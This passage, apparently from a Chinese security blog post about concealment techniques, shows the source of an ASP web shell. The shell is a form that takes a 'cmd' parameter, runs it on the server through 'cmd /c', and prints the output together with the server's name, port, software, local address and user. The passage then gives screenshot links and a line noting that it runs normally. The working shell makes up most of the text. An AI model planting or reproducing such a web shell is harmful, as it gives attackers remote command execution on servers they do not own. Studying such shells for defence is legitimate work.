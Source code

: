 ```html
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>






<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>



</BODY>
</HTML>
```


![]({{ site.url }}/assets/Conceal_116.assets/20201116152524669_1598827818.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116152531032_36262215.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116152537722_1721175404.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116152545081_1190289938.png)

可以正常执行
